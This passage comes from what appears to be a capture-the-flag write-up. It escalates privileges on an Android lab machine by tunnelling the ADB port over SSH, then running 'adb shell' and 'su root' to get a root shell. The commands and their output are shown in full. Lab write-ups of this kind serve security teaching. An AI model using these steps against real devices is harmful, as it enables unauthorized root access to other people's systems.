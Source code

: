 ```bash
:/sdcard $ netstat -tunlp |grep LIST  
tcp        0      0 127.0.0.1:5037          0.0.0.0:*               LISTEN      -  
tcp        0      0 127.0.0.1:5554          0.0.0.0:*               LISTEN      31429/ssh  
tcp6       0      0 :::59777                :::*                    LISTEN      -  
tcp6       0      0 ::ffff:10.10.10.2:45833 :::*                    LISTEN      -  
tcp6       0      0 ::ffff:127.0.0.1:41613  :::*                    LISTEN      -  
tcp6       0      0 :::2222                 :::*                    LISTEN      3402/net.xnano.android.sshserver  
tcp6       0      0 ::1:5554                :::*                    LISTEN      31429/ssh  
tcp6       0      0 :::5555                 :::*                    LISTEN      -  
tcp6       0      0 :::42135                :::*                    LISTEN      -
```

Port 5555 is open and listening for connections
I know for a fact that 5555 is tcp port for adb

Lets forward this port to our machine using SSH and try to connect to it via adb
```bash
$ ssh kristi@10.10.10.247 -p 2222 -L 5555:127.0.0.1:5555

$ netstat -tunlp |grep LIST  
[REDACTED]
tcp        0      0 127.0.0.1:5555          0.0.0.0:*               LISTEN      18108/ssh   
[REDACTED]
```

Now connect to adb with `adb shell`

```bash
$ adb shell
x86_64:/ $ su root
x86_64:/ # whoami;id;hostname
root  
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),300  
2(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:su:s0  
localhost
```
